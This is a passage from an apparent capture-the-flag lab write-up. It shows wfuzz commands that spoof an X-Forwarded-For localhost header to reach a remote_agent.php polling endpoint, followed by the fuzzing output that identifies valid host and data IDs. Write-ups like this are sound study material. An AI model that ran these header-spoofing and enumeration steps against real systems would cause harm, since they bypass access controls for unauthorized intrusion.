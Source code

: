 I’ll use `wfuzz` to experiment with different values in `local_data_ids[0]`
and `host_id`. The default response is just `[]`, so I’ll use `--hh 2` to
filter out two character responses. If I fuzz the `host_id`, only “1” has
data:

    
    
    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1
    Total requests: 100
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                   
    =====================================================================
    
    000000001:   200        0 L      1 W        54 Ch       "1"                                                                       
    
    Total time: 0
    Processed Requests: 100
    Filtered Requests: 99
    Requests/sec.: 0
    

When I fuzz the `local_data_ids[0]`, it seems that 1-6 return different data:

    
    
    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1
    Total requests: 100
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000003:   200        0 L      1 W        54 Ch       "3"
    000000001:   200        0 L      1 W        54 Ch       "1"
    000000005:   200        0 L      1 W        63 Ch       "5"
    000000002:   200        0 L      3 W        78 Ch       "2"
    000000006:   200        0 L      1 W        55 Ch       "6"
    000000004:   200        0 L      1 W        66 Ch       "4"                                                                       
    
    Total time: 8.803886
    Processed Requests: 100
    Filtered Requests: 94
    Requests/sec.: 11.35861
    